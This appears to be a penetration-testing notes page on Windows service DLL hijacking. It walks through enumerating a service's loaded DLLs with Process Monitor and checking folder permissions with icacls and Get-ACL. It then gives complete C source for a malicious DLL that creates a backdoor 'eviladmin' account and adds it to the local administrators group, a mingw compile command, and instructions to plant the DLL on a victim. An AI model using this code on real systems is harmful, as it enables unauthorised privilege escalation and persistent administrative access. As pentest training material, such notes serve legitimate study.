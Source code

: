 ```yaml
---
description: DLL Hijacking is a highly effective method.
---
```


# Service DLL Hijacking

## Finding DLL's on running service.

We can use Process Monitor, or any monitoring tool that is on the system to enumerate DLL's on a running service. _**We may have to import our own process monitor binary to system if there is none under permissions we can use!**_

_<mark style="color:red;">**NOTE:**</mark>_ If the DLL list is empty, we should restart the service and view the start up DLLs.

<figure><img src="../../../.gitbook/assets/Screenshot_20231009_180645 (1).png" alt=""><figcaption><p>XFreeRDP - Procmon w/ DLL Name Filter is Empty.</p></figcaption></figure>

### Restarting DLL Service

```
PS> Restart-Service BetaService
```

<figure><img src="../../../.gitbook/assets/Screenshot_20231009_181914.png" alt=""><figcaption><p>Viewing Loaded DLL's after executing Restart-Service</p></figcaption></figure>

## Enumerating Permissions

Once we've enumerated the installed service and found one of interest, we can view the permissions.  We can use tools like: _**icacls**_ Windows utility or the PowerShell Cmdlet _**Get-ACL**_

| MASK | PERMISSIONS             |
| ---- | ----------------------- |
| F    | Full access             |
| M    | Modify access           |
| RX   | Read and execute access |
| R    | Read-only access        |
| W    | Write-only access       |

##

## Create Malicious DLL

There are many types of malicios DLL's we can execute on our victim. For more information view: Malware Development

#### Adds Administrative User w/ Net Command

```c
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user eviladmin password123! /add");
  	    i = system ("net localgroup administrators eviladmin /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

#### Compile for Windows x64

**--shared** to specify that we want to build a DLL.

```
x86_64-w64-mingw32-gcc malicous-dll.c --shared -o myDll.dll
```

#### We then transfer the DLL to our victim and save it at the location it's being called from.

<pre><code><strong>PS> $env:path
</strong></code></pre>
